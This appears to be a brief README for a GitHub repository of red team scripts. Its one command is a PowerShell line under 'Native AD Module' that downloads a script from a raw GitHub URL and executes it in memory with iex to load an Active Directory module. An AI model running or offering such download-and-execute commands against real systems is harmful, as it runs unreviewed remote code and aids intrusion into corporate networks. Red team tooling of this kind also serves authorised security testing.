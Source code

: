 # RedTeamStuffs
A collection of Red Team scripts and stuff that have come in handy

# Native AD Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/RCStep/RedTeamStuffs/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
